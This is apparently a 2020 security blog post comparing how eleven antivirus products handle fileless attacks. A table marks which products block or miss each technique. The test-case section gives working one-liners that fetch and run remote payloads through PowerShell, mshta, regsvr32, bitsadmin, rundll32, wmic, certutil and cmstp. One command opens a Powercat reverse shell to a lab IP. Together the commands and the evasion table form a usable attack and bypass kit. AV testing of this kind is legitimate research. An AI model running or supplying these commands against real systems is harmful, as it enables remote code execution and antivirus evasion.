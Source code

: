 ```yaml
---
title: "AV comparison on fileless attack"
date: "2020-04-08"
layout: single
tags:
- Malware
categories:
- Blog-post
---
```


I've test some fileless command in my lab with AV Protection and here's the result.

| Symbol | Description |
|---|---|
| ✔️ | Blocked |
| ❌ | Bypassed |

---

| Fileless technique | Bitdefender | Avast | Symantec | Webroot | ESET | Karspersky | Sophos | TrendMicro | WinDef | Malwarebytes | Panda Adaptive | 
| --- | ---| ---| ---| ---| ---| ---| ---| ---| ---| ---|---|
| koadic `mshta` | ✔️| ❌|❌ | ❌| ✔️ |❌ | ❌| ❌| ✔️ |❌ |❌ |
| koadic `regsvr` | ✔️|❌ |❌ | ❌|✔️ |✔️ |✔️ |✔️ | ✔️| ❌| ✔️|
| koadic `rundll32_js` | ✔️|❌ |✔️ | ❌|✔️ | ✔️|❌ |✔️ | ✔️| ❌| ✔️|
| koadic `bitsadmin ` | ❌|✔️ |❌ |❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
|koadic `disk`|✔️ | ❌| ❌|❌ |✔️ |❌ |✔️ |✔️ |✔️ |❌ | ✔️|
| koadic `wmic` | ✔️|❌ |✔️ |❌ |❌ |✔️ |✔️ | ✔️| ✔️|❌ | ✔️|
| Malicious Powershell line  |✔️ |✔️ |✔️ |❌ | ❌| ✔️|❌ |✔️ | ❌| ❌| ✔️|
| msvenom `msiexec ` |✔️ |✔️ | ✔️|✔️ |✔️ |✔️ | ✔️| ✔️|✔️ |✔️ | ✔️|
| msvenom `certutil `| ✔️| ✔️| ✔️|❌ | ✔️| ✔️|✔️ |✔️ |✔️ |✔️ | ✔️|
| msvenom `batch ` | ✔️| ✔️| ✔️|❌ | ❌|✔️ |❌ |❌  | ✔️|❌ |❌ |
| msvenom `cscript `(vbs)  |✔️ |✔️ |✔️ |❌ |✔️ |✔️ |✔️ |✔️ |✔️ | ✔️| ✔️|
| Powercat | ✔️|✔️ | ✔️|❌ |❌ | ❌|❌ |❌  |✔️ |❌ | ✔️|


# Testcase

My testcase are mostly using msvenom with metasploit and koadic.

## Powershell

Download and execute
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/evil.exe', '%temp%\evil.exe'); Start-Process -Filepath '%temp%\evil.exe'"
```

Powercat
```
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/powercat.ps1');powercat -c 192.168.189.131 -p 9999 -e cmd"
```

Msvenom batch
```
powershell -c "IEX((New-Object System.Net.WebClient).DownloadString('http://192.168.189.131:7777/ms.bat'))
```

Msvenom Vbscript
```
powershell -NoLogo -Command "$webClient = new-object System.Net.WebClient; $webClient.DownloadFile('http://192.168.189.131:7777/ms.vbs', '%temp%\ms.vbs'); Start-Process %windir%\system32\cscript.exe -Filepath '%temp%\ms.vbs'"
```

## Koadic

Mshta
```
mshta http://192.168.189.131:9999/tT4Fh
```

Regsvr32
```
regsvr32 /s /u /n /i:http://192.168.189.131:9998/d2XfT scrobj
```

Bitsadmin
```
bitsadmin /transfer oZHsz /download /priority high http://192.168.189.131:9995/oZHsz.wsf %temp%\oZHsz.wsf & start /wait %temp%\oZHsz.wsf & del %temp%\oZHsz.wsf
```

Rundll32
```
rundll32.exe javascript:"\..\mshtml, RunHTMLApplication ";x=new%20ActiveXObject("Msxml2.ServerXMLHTTP.6.0");x.open("GET","http://192.168.189.131:9997/eTMXy",false);x.send();eval(x.responseText);window.close();
```

Wmic
```
wmic os get /FORMAT:"http://192.168.189.131:9996/pMeV8.xsl"
```

## Others

Certutil
```
certutil.exe -urlcache -split -f http://192.168.189.131:7777/ms.exe ms.exe & ms.exe
```

Cmstp
```
cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
```

# Note
Msvenom payload may easily detect by AV because of it's popularity used by many attacker and well recognized it pattern.
